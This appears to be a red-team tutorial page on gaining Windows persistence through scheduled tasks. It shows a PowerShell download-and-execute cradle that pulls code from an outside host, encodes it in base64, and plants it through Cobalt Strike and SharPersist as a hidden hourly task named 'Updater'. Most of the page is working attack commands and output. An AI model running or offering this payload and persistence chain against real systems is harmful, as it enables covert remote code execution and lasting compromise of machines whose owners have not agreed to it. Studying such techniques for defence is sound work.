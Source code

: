 # Scheduled Tasks

## Creating Tasks

Windows Task Scheduler allows us to create tasks that execute on a pre-defined trigger. For example they can be:

* Time of day
* User Login
* Computer Idle
* Every n hours, minutes, seconds

### Building Payload

For this example we will base64 encode our PowerShell payload using -enc (-EncodedCommand)

<pre class="language-powershell"><code class="lang-powershell">PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://copperwired.com/a"))'

<strong>PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
</strong></code></pre>

#### Output:

```powershell
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwBjAG8AcABwAGUAcgB3AGkAcgBlAGQAL
gBjAG8AbQAvAGEAIgApACkA
```

### Execute Payload - SharPersist & Cobalt Strike

We can use the `execute-shellcode` command from an existing beacon in CobaltStrike to establish persistence. We'll also have to utilize a tool like [SharPersist](https://github.com/mandiant/SharPersist) as there are no built-in persistence tools.&#x20;

```powershell
beacon> execute-assembly C:\Tools\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc 
SQBFAFgAIAAo...ACgAbgBlAHcALQBvAGkA" -n "Updater" -m add -o hourly
```

* `-t` is the desired persistence technique.
* `-c` is the command to execute.
* `-a` are any arguments for that command.
* `-n` is the name of the task.
* `-m` is to add the task (you can also `remove`, `check` and `list`).
* `-o` is the task frequency.

### Confirm

We can confirm we successfully created a scheduled task by opening the Task Scheduler.

<figure><img src="../../.gitbook/assets/Screenshot 2024-07-31 at 2.09.43 AM.png" alt=""><figcaption></figcaption></figure>
